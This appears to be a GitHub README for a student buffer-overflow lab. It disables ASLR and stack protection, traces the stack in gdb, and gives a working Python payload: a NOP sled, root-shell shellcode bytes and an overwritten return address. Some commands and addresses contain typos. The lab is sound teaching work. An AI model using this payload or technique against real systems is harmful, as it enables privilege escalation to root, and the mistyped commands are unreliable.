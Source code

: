 #Buffer Overflow

The objective of this project is to learn how to analyze whether a program has a buffer
overflow (BOF) vulnerability, how to exploit BOF and how to defend against BOF.
BOF is an anomaly that violates memory safety. If you give an input that is longer
than expected length, it would be written out of bounds to a block of fixed pre-
allocated memory. This situation leads to data corruption and crash of the program
or executes malicious codes by changing control flow of the program. To exploit buffer overflow properly, we have to install Ubuntu 14.04.03 LTS 32-Bit version OS.

We have to disable address space randomization (ASR). ASR is able to put address space targets in unpredictable locations. If an attacker attempts to exploit an incorret address space location, the target application will crash, stopping the attack and alerting the system. We don't need these kind of things if we want to write Buffer Overflow exploits. 

Disable ASR

```
$ sudo systcl -w kernel .randomize_va_space=0

[sudo] password for : 

```

1. 0 means No randomization. Everything is static.
2. 1 means Conservative randomization. Shared libraries, stack, mmap(), VDSO and heap are randomized.
3. 2 means Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.

randomize_va_space value will be set to 2 after reboot. We can disable ASR permanently by adding `sudo nano /etc/sysctl.d/01-disable-aslr.conf` containing `kernel.randomize_va_space=0`

The gcc compiler has a protection scheme called "Stack Guard". BOF attacks will not work with this scheme. We have to add `fno-stack-protector` option to our command. 

`$ gcc -fno-stack-protector -z exestack -g -o sample sample.c`

-g - indicates that you can analyze a program with gdb.
-o - name of executable program.

There are security mechanisms against attacks like BOF that use shell programs like /bin/sh linked to /bin/bash. Thus, privileges for shell are dropped and we can not retain the privileges inside the shell. Therefore, we will use another shell, zsh.

```
$ sudo su

[sudo] password for :

apt-get install zsh

cp /bin/sh /bin/sh.bak

ln -s /bin/zsh /bin/sh

```

## Experiment 1

#### Valid Input

![valid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-1.png)

We firstly executed these commands to check stack boundaries:

start
info registers

The important registers for us are $esp (top of the stack) and $ebp (bottom of the stack). These registers can tell us that where the bof function starts and ends.  Our bof function starts at 0bfffee90 and ends 0bfffef18.

Then x/80x $esp command executed to examine 80 hexadecimal words, starting at $esp. 


Bof function starts at 0bfffef90 and ends 0bfffef18.  The first word after $ebp actually is a return address of bof but we are gonna talk about this later. 

We also defined breakpoints at *main+48 (at return instruction of main) and *bof+27 (right after strcpy function). Input were sequence of 's' characters (smaller than 100). 

![valid-input-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-2.png)

Here we can see that 's' (73 in ASCII) characters fill the appropriate field of stack and return address  wasn't overwritten by 's' characters.

```python
#!/usr/bin/python

print  's' * 64
```

![valid-input-3](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-3.png)

We checked current eip by typing info frame command and there is no changes. Later we will see that how the instruction pointer changes when user enters invalid input.

EIP holds the memory address of next instruction that would be executed.

Info frame command can give us information about stack frames. Now we will try to interpret these     output that you see above. 

###### Stack level 0

Frame number in backtrace, 0 is current executing frame, which grows downwards, in consistence with the stack.

###### Frame at 0bfffef20

Starting memory address of this stack

###### eip = 08048498 in bof (bof.c: 13); saved eip = 080484be 

We said that eip is register for next instruction to execute. So 0*8048498 will be next instruction to execute (line 13 of bof).  

###### saved eip 

080484be is called return address. Pushed into stack upon CALL (save it for return).

###### Arglist at 0bffef18 

The starting address of arguments

###### Locals at 0bfffef18

The starting address of locals 


###### Previous frame's sp is 0bfffef20 

The previous frame's stack pointer point to (the caller frame), at the moment of calling, it also the starting memory address of called stack frame.

###### Saved Registers

* ebp at 0bffef18 address where ebp register of caller's stack frame saved.  (it is the register, not the caller´s stack address). i.e., corresponding to "PUSH %ebp". "ebp" is the register usually considered as the starting address of the locals of this stack frame, which use "offset" to address. 

* eip at 0bfffef1c as mentioned before, but here is the address of the stack (which contains the value "080484be")

#### Invalid Input

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-1.png)

Now we see that return address (first word after ebp) overwritten to 0737373 (ebp was 0*bfffef18).

```python
#!/usr/bin/python

print  's' * 116
```

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-2.png)

We can check eip register to see changes using info frame. Saved eip updated to 0737373 and there have no instruction like 0737373. So we got segmentation  fault.

#### Open Root Shell

Shellcode must not contain any null bytes (00). They will prevent the buffer from overflowing. Exploit that works in gdb may fail in  a real Linux shell because environment variables may cause the location of the stack to change slightly. Solution for this is a NOP Sled (a long series of “90” bytes) which do nothing. We used 64 byte NOP Sled. 

NOP (64 byte) + shellcode (32 byte) + padding (16 byte) + eip (4 byte)

Return address should hit the NOP's area. So eip will be point one of the starting address of NOP's area and instead of returning back to system, it return to the stack area, start executing the NOPs. Then proceeded to our shell.

```python
#!/usr/bin/python

    nop = '\x90' * 64
    shellcode =     ('\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2 f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80')

   padding = 's' * 16
   eip = '\xe0\xee\xff\xbf'  
   print nop + shellcode + padding + eip
```

![shellcode-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-1.png)

Now we see that return address is 0bfffeee0. It'll return back to NOP's area instead of returning main.

![shellcode-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-2.png)

Program opens shell but terminates it immediately. Note that, our program gets input using `gets` built-in function. To run shell please get input from user as a argument.

## Experiment 2

We will analyze stackbof in this experiment.

In main function, a copy function is called and an input, which is given when
the program runs, is passed to the copy function as an argument to copy into a
character array, buf has the length of 10-bytes. Then the input is printed to the
console. If the input is longer than 10 bytes, BOF will occur. We should jump to a hack function instead of the code after the copy function.
